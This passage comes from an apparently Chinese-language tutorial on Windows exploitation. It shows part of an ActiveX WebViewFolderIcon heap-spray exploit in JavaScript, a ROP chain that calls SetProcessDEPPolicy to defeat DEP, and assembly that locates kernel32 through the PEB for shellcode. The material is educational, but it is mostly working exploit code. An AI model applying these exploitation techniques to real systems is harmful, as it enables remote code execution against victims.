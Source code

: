 ```
 ActiveXObject('WebViewFolderIcon.WebViewFolderIcon.1');
            tar.setSlice(0x7ffffffe, 0x05050505, 0x05050505,0x05050505 ); 
        }catch(e){}
    }
    function getSpraySlide(spraySlide, spraySlideSize)
    {
        while (spraySlide.length*2<spraySlideSize)
        {
            spraySlide += spraySlide;
        }
        spraySlide = spraySlide.substring(0,spraySlideSize/2);
        return spraySlide;
    }

</SCRIPT> 

```

Flash Player 和Adobe Reader中也会采用类似的方法来达到堆填充的目的。这里就不举相关例子了，有兴趣的话，可以在网络上搜索一下暴露的POC。

**2、 ASLR+DEP**

地址随机化和数据执行保护在最新的操作系统中普遍采用的一种保护技术，若要执行ShellCode，就必须要绕过ASLR+DEP。目前的采用的方法主要有两种：泄露模块基址、使用未ASRL的DLL模块，最终目的就是绕过DEP。

鉴于目前常见的技术是使用ROP，代码形式简单如下：

```
## ROP 
rop =  struct.pack("<I",0x77bf362c) # POP EBX / RET
rop += struct.pack("<I",0x41414141) # junk
rop += struct.pack("<I",0x41414141) # junk
rop += struct.pack("<I",0xFFFFFFFF) # 00000000
rop += struct.pack("<I",0x7e810b7e) # INC EBX / RET

rop += struct.pack("<I",0x77bebb36) # POP EBP / RET
rop += struct.pack("<I",0x7C862144) # SetProcessDEPPolicy

rop += struct.pack("<I",0x77bf3b47) # POP EDI / RET
rop += struct.pack("<I",0x77be1110) # RET
rop += struct.pack("<I",0x77bf1891) # POP ESI / RET
rop += struct.pack("<I",0x77be2091) # RET

rop += struct.pack("<I",0x7e6ea62b) # PUSHAD / RET
 ####

```

通过使用ROP的方式调用系统函数比如SetProcessDEPPolicy、VirtualProtect等函数修改一部分内存属性，将其改为可执行，然后再跳转执行。

**3、 FS:[30]获取Kernel32基址**

FS:[30]这种方法本质是通过PEB的方式来获取到Kernel32的基址，进而获取到Kernel32中函数地址。代码如下：

```
xor eax, eax               ; // clear eax
mov eax, fs:[ 0x30 ]       ; // get a pointer to the PEB
mov eax, [ eax + 0x0C ]    ; // get PEB->Ldr
mov eax, [ eax + 0x14 ]    ; // get PEB->Ldr.InMemoryOrderModuleList.Flink                              ;//(1st entry)
mov eax, [ eax ]           ; // get the next entry (2nd entry)
mov eax, [ eax ]           ; // get the next entry (3rd entry)
mov ebp, [ eax + 0x10 ]    ; // get the 3rd entries base address                                        ;//(kernel32.dll)

```
